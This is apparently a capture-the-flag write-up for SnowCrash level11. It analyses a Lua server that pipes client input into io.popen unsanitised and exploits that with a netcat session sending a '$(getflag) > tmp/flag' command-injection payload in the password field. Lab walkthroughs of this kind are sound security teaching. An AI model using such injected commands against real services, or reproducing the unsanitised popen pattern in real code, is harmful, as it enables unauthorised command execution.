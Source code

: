 # Level11

## Research

```bash
level11@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
```

Study `level11.lua`:
```lua
#!/usr/bin/env lua
local socket = require("socket")
-- bind() associates the socket with its local address [that's why server side binds, 
-- so that clients can use that address to connect to server.] connect() is used to 
-- connect to a remote [server] address, that's why is client side, connect [read as: 
-- connect to server] is used.
local server = assert(socket.bind("127.0.0.1", 5151))

-- Seems to hash a password then return hash
function hash(pass)
  -- io.popen : 
  -- open a process that you can read from (mode 'r') OR write to (mode 'w') 
  -- through standard pipes (stdin, stdout)
  -- starts program prog in a separated process and returns a file handle that you 
  -- can use to read data from this program (if mode is "r", the default) or to write 
  -- data to this program (if mode is "w"). 
  -- sha1sum is a computer program that calculates and verifies SHA-1 hashes. t print or check 
  -- SHA1 (160-bit) checksums. With no FILE, or when FILE is -, read standard input. 
  -- A checksum (or hash) is a sequence of numbers and letters used to check data for errors. If you know the checksum
  -- of an original file, you can use a checksum utility to confirm your copy is identical.
  -- To produce a checksum, you run a program that puts that file through an algorithm. Typical algorithms 
  -- used for this include MD5, SHA-1, SHA-256, and SHA-512.
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  -- read("*all") reads the whole current input file
  data = prog:read("*all")
  prog:close()
  -- takes a part of data and return it
  data = string.sub(data, 1, 40)
  return data
end

while 1 do
    local client = server:accept()
    client:send("Password: ")
    client:settimeout(60)
    -- err is error string if something went wrong (like timeout)
    -- l is the return of receive(), surely the strings the client entered aka password
    local l, err = client:receive()
  if not err then
      print("trying " .. l)
      --   sends client's attempted password to hash function
      local h = hash(l)
      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end
  end
  client:close()
end
```

What we can understand:
- A server seems to be set up on our `localhost` on port `5151`
- It will ask for a passord
- Will sends this password in a hash function
- Will apply a sha1sum on it
- Will return the 40 first characters of it
- And will do a useless `if else` condition.

`prog = io.popen("echo "..pass.." | sha1sum", "r")` </br>
`The popen() function opens a process by creating a pipe, forking, and invoking the shell.`</br>
https://linux.die.net/man/3/popen</br>

`popen` is known for its vunerability to command injections, as it will execute code, see: 
https://www.stigviewer.com/stig/application_security_and_development/2018-12-24/finding/V-70261

So `io.popen` starts a program in a separated process and returns a file handle that you can use to read data from this program or to write data to this program.

So the program `level11.lua` will execute 
```bash
echo "..pass.." | sha1sum
```
`echo "$(command)"` will execute the command.

So we have to send `$(getflag)` as a password to the program. How to connect on port `5151` ? </br>

```bash
level11@SnowCrash:~$ curl http://localhost:5151
Password: Erf nope..
```
Fails, remembered previous level `netcat`command.

## Solution

Let's listen to our `localhost` port `5151`:
```bash
level11@SnowCrash:~$ nc localhost 5151
Password: $(getflag)
Erf nope..
```
don't return the flag, it will pipe into shasum, etc...

So let's redirect getflag to a file:
```bash
level11@SnowCrash:~$ nc localhost 5151
Password: $(getflag) > tmp/flag
Erf nope..
level11@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : XXXXXXXXXXXXXXXXXXXXX
```
